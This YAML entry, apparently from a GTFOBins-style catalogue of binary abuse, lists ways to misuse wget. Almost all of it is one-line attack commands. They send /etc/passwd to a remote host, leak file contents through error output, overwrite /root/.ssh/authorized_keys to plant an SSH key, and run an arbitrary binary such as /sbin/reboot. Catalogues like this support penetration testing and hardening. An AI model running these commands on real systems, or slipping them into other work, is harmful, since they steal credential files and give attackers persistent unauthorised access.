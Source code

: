 ```yaml
---
functions:
  command:
    - description: Can be used to execute any command or file on a system, but without any arguments, and without stdout/stderr. This can be useful if you are able to write an executable to the server beforehand. The example here invokes /sbin/reboot.
      code: |
        wget --use-askpass=/sbin/reboot http://0/
  file-upload:
    - description: Send a local file to a remote server in a POST request. Note that the file will be sent as-is.
      code: |
        wget --post-file=/etc/passwd http://0/
  file-read:
    - description: Read local files by importing the file as URIs to be retrieved. The content of the file will be displayed as error messages.
      code: |
        wget --input-file=/etc/passwd http://0/
  file-write:
    - description: Reads local data and writes the output to a file. This is only suitable for displaying non-binary files, as the output is an error-log.
      code: |
        wget --input-file=/etc/passwd --output-file=/tmp/passwd.txt
  file-download:
    - description: Downloads a remote file via an HTTP GET request and saves it to a specific location.
      code: |
        wget --output-document=/root/.ssh/authorized_keys http://0/
---
```

